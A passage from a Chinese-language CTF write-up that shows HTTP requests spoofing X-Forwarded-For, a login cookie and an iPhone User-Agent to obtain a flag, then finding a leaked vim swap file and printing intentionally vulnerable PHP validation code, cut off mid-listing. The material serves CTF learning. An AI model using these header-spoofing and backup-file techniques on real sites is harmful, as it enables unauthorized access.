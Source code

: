 然后看到服务器给我们 Set 了一个 Cookie，修改为 1

```
> http http://ctf.xjnu.edu.cn:9900/web20/ X-Forwarded-For:127.0.0.1 Cookie:login=1
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 31
Content-Type: text/html; charset=UTF-8
Date: Thu, 20 Sep 2018 15:46:00 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.7 (Ubuntu)
Set-Cookie: login=0
X-Powered-By: PHP/5.5.9-1ubuntu4.21

很可惜你不是iPhone OS 999
```

然后去网上找了个 iPhone 的 User-Agent，并且改成了 `iPhone OS 999`

```
> http http://ctf.xjnu.edu.cn:9900/web20/ X-Forwarded-For:127.0.0.1 Cookie:login=1 User-Agent:"Mozilla/5.0 (iPhone; CPU iPhone OS 999 like Mac OS X) AppleWebKit/604.1.34 Safari/604.1"
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 28
Content-Type: text/html; charset=UTF-8
Date: Thu, 20 Sep 2018 15:50:17 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.7 (Ubuntu)
Set-Cookie: login=0
X-Powered-By: PHP/5.5.9-1ubuntu4.21
flag: flag{h77p_He4dEr_50_E4sy}

<!-- flag not in html... -->
```

## Web30

提示：小明 shell 下的编辑器用的比较 6

因此判断应该存在 shell 下运行编辑器时意外退出所留下的备份文件，扫描后发现了这个地址

http://ctf.xjnu.edu.cn:9900/web30/.index.php.swo

```php
<?php
$get = $_GET['ctf'];
if ($get == '!#?&@') {
    echo '<p> class="alert">Go on!</p>';
} else {
    exit();
}
if (isset($_GET['password'])) {
    if (ereg("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE) echo '<p class="alert">You password is error,must be test others</p>';
    else if (strpos($_GET['password'], '--') !== FALSE){
        $a = @$_GET['xjnu'];
        $v1 = 0;
        if (is_array($a)) {
            is_numeric(@$a["bar1"]) ? die("No way!") : NULL;
            if (@$a["bar1"]) {
                ($a["bar1"] > 2016) ? $v1 = 1 : NULL;
            }
            if (is_array(@$a["bar2"])) {
                if (count($a["bar2"]) !== 3 or !is_array($a["bar2"][0])) die("No way!");
                foreach ($a["bar2"] as $key => $val) {
                    if (preg_match('/2018/', $val)) {
```